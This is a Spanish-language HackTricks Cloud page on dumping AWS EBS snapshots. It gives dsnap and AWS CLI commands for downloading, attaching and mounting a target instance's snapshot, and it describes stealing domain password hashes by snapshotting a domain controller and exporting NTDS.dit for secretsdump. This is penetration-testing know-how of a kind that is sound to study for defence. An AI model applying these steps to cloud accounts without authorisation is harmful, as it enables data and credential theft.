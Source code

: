 # AWS - Volcado de Snapshot de EBS

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) en github.

</details>

### Comprobando un snapshot localmente

```bash
# Instalar dependencias
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Obtener snapshot de la imagen
mkdir snap_wordir; cd snap_workdir
dsnap init
## Descargar un snapshot del volumen de esa instancia
## Si no existía ningún snapshot, intentará crear uno
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Otra forma de obtener un snapshot
dsnap list #Listar snapshots
dsnap get snap-0dbb0347f47e38b96 #Descargar snapshot directamente

# Ejecutar con vagrant
IMAGE="<download_file>.img" vagrant up #Ejecutar imagen con vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Acceder a la VM
vagrant destroy #Para destruir

# Ejecutar con docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #Con el snapshot descargado
```

Para obtener más información sobre esta técnica, consulte la investigación original en [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Puede hacer esto con Pacu utilizando el módulo [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

### Comprobando un snapshot en AWS

```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-0b49342abd1bdcb89
```

**Montarlo en una VM de EC2 bajo su control** (tiene que estar en la misma región que la copia de la copia de seguridad):

**Paso 1:** Vaya a EC2 –> Volumes y cree un nuevo volumen de su tamaño y tipo preferidos.

**Paso 2:** Seleccione el volumen creado, haga clic con el botón derecho y seleccione la opción "adjuntar volumen".

**Paso 3:** Seleccione la instancia del cuadro de texto de la instancia como se muestra a continuación.

![](<../../../../.gitbook/assets/image (6) (1) (1).png>)

**Paso 4**_:_ Ahora, inicie sesión en su instancia ec2 y liste los discos disponibles usando el siguiente comando.

```
lsblk
```

El comando anterior mostrará el disco que adjuntó a su instancia.

**Paso 5:**

![](<../../../../.gitbook/assets/image (59).png>)

Puede hacer esto con Pacu utilizando el módulo ebs\_\_explore\_snapshots

### Comprobando un snapshot en AWS (usando cli)

```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Adjuntar nuevo volumen a la instancia
$ aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# montar el snapshot desde dentro de la VM
$ sudo file -s /dev/xvdb1
# Devuelve:
# /dev/xvdb1: Linux rev 1.0 ext4 filesystem data, UUID=5a2075d0-d095-4511-bef9-802fd8a7610e, volume name "cloudimg-rootfs" (extents) (large files) (huge files)
$ sudo mount /dev/xvdb1 /mnt
```

### Shadow Copy

Cualquier usuario de AWS que posea el permiso **`EC2:CreateSnapshot`** puede robar los hashes de todos los usuarios del dominio creando un **snapshot del controlador de dominio** montándolo en una instancia que controlen y **exportando el archivo NTDS.dit y el hive del registro SYSTEM** para su uso con el proyecto secretsdump de Impacket.

Puede utilizar esta herramienta para automatizar el ataque: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) o podría utilizar una de las técnicas anteriores después de crear un snapshot. 

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) en github.

</details>
